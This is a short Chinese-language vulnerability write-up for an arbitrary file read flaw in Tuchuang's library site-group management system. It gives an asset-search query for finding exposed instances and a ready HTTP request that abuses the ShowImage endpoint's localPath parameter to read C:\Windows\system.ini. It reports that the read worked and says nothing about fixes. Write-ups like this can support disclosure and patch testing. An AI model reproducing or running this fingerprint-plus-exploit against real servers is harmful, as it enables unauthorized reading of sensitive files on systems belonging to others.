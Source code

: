 # 图创软件 图书馆站群管理系统 任意文件读取漏洞

# 图创软件 图书馆站群管理系统 任意文件读取漏洞

## 漏洞描述

图创软件 图书馆站群管理系统 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
图创软件 图书馆站群管理系统
```

## 网络测绘

```
"广州图创" && country="CN" && body="/interlib/common/"
```



## 漏洞复现

登录页面如下

![](/images/202202101854438.png)

漏洞请求包为



```plain
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: 
Content-Length: 4
```



![](/images/202202101854283.png)



成功读取 system.ini 文件


